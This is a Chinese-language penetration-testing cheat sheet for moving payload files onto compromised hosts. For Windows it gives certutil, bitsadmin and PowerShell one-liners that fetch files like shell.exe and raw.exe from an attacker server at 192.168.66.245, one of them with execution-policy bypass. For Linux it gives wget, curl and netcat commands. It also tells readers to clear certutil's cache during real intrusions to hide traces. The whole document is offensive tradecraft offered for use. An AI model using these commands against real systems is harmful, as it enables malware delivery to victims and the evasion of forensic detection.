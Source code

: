 # 内网渗透下载文件

# Windows

## certutil

不加保存的文件名

```powershell
certutil -urlcache -split -f http://192.168.66.245:8000/shell.exe
```

添加需要保存的文件名

```powershell
certutil -urlcache -split -f http://192.168.66.245:9000/shell.exe test.exe
```

certutil在下载文件时会在缓存目录保存副本，所以在真实渗透中，需要清理缓存目录

缓存目录为：`%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`

使用命令直接删除

```powershell
certutil -urlcache -split -f http://192.168.66.245:9000/shell.exe delete
```

查看缓存内容

```powershell
certutil.exe -urlcache *
```

## bitsadmin

只适用于Windows7及以上的系统版本

使用bitsadmin下载文件，指定保存路径与文件名

```powershell
bitsadmin /rawreturn /transfer getfile http://192.168.66.245/raw.exe C:\Users\mssql\Desktop\asd\cc.exe
```

```powershell
bitsadmin /rawreturn /transfer getpayload http://192.168.66.245/raw.exe C:\Users\mssql\Desktop\asd\dd.exe
```

带进度条

```powershell
bitsadmin /transfer myDownLoadJob /download /priority normal "http://192.168.66.245/raw.exe" "C:\Users\mssql\Desktop\asd\ee.exe"
```

如果下载文件过大，可以提高优先级

```powershell
bitsadmin /setpriority 比如high
FOREGROUND
HIGH
NORMAL
LOW
```

## PowerShell

Windows7及以上系统默认自带`powershell`

一句话下载

```powershell
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://192.168.66.245/raw.exe','C:\Users\mssql\Desktop\a.exe')
```

```powershell
powershell (new-object Net.WebClient).DownloadFile('http://192.168.66.245/raw.exe','C:\Users\mssql\Desktop\b.exe')
```

# Linux

## wget

```powershell
wget http://192.168.66.245/raw.exe
```

## curl

```powershell
curl -O http://192.168.66.245/raw.exe
```

## nc

接收端

```powershell
nc.exe -l -p 9999 > xxxxxx.exe
```

发送端

```powershell
nc64.exe 192.168.5.132 9999  < raw.exe
```